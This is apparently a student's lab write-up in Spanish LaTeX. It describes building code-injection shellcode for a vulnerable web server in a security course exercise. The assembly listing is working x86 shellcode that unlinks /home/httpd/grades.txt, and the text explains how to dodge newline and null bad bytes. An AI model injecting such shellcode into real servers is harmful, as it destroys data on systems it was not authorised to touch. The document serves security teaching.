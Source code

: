 \documentclass[a4paper,12pt]{article}
\begin{document}
\section{Part 2: Code injection}

\subsection{Ejercicio 3:}

\textbf{Starting from one of your exploits from Exercise 2, construct an exploit that hijacks control flow of
the web server and unlinks /home/httpd/grades.txt}

Al crear el shellcode para eliminar el archivo surgió un problema: el valor de la función \textit{unlike} era 10 o '\textbackslash n'
o '\textbackslash 0', y cuando se creaba el binario, dentro había ese caracter. Cuando pasabas el binario por la url, 
el servidor no llegaba a la parte vulnerable ya que retornaba la respuesta antes, porque si encontraba uno de los caracteres
mencionados anteriormente, simplemente terminaba. La solución es muy simple, en lugar de poner el valor 10 de frente, se
suman dos valores 5. El código en assembler es el siguiente:

\begin{lstlisting}
#include <sys/syscall.h>

#define STRING  "/home/httpd/grades.txt"
#define STRLEN  22
#define ARGV    (STRLEN+1)
#define ENVP    (ARGV+4)

.globl main
        .type   main, @function

 main:
        jmp     calladdr

 popladdr:
        popl    %esi
        movl    %esi,(ARGV)(%esi)       /* set up argv pointer to pathname */
        xorl    %eax,%eax               /* get a 32-bit zero value */
        movb    %al,(STRLEN)(%esi)      /* null-terminate our string */
        movl    %eax,(ENVP)(%esi)       /* set up null envp */

        add     $5, %al
        add     $5, %al
        movl    %esi,%ebx               /* syscall arg 2: string pathname */
        leal    ARGV(%esi),%ecx         /* syscall arg 2: argv */
        leal    ENVP(%esi),%edx         /* syscall arg 3: envp */
        int     $0x80                   /* invoke syscall */

        xorl    %ebx,%ebx               /* syscall arg 2: 0 */
        movl    %ebx,%eax
        inc     %eax                    /* syscall arg 1: SYS_exit (1), uses */
                                        /* mov+inc to avoid null byte */
        int     $0x80                   /* invoke syscall */

 calladdr:
        call    popladdr
        .ascii  STRING
\end{lstlisting}
\end{document}
